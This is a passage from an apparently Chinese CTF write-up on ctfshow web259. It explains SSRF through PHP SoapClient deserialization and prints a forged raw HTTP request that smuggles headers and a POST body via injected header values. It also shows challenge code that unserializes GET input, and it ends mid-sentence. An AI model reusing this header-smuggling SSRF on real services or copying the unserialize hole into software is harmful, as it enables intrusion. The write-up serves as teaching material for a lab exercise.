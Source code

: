 ```bash
POST /flag.php HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
X-Forwarded-For:127.0.0.1,127.0.0.1,127.0.0.1//因为本地没加函数
Content-Type:application/x-www-form-urlencoded
Content-Length: 13

token=ctfshow//长度 13 下面的丢弃
Content-Type: text/xml; charset=utf-8
SOAPAction: "127.0.0.1#AAA"
Content-Length: 372
```

因此达成伪造的效果

### 例题

**ctfshow web259**

index.php

```bash
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

可以看到这里调用了一个不存在的方法，所以考点应该就是利用 SoapClient 打 SSRF 了

flag.php

```bash
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']); //打散为数组，用，分割
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

可以看到
